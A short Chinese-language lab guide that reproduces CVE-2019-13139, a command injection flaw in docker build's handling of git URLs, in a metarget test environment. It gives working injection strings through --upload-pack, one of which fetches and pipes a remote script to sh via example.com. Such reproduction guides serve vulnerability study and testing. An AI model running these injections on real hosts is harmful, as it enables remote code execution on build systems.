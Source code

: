# Docker构建代码执行（CVE-2019-13139）

## 场景介绍

docker build命令构建本地镜像时，支持使用远程url参数作为构建环境，并且这个远程构建环境可以是一个git仓库。

在docker 18.9.4之前版本中，docker build过程中对remoteUrl解析存在缺陷，导致了remoteUrl中的部分字符串会被作为命令执行。

## 环境搭建

漏洞环境准备：

```
./metarget cnv install cve-2019-13139
```

## 漏洞复现

执行相关利用命令:

```
root@cloudplay:~/metarget$ docker build "git@g.com/a/b#--upload-pack=touch 1234;:" #执行结果报错但不影响
root@cloudplay:~/metarget$ ls | grep 13139
13139.txt
root@cloudplay:~/metarget$ docker build "git@github.com/a/b#--upload-pack=curl -s example.com/poc.sh|sh;#:"    #下载远程shell文件并执行
```

## 参考文献

https://staaldraad.github.io/post/2019-07-16-cve-2019-13139-docker-build/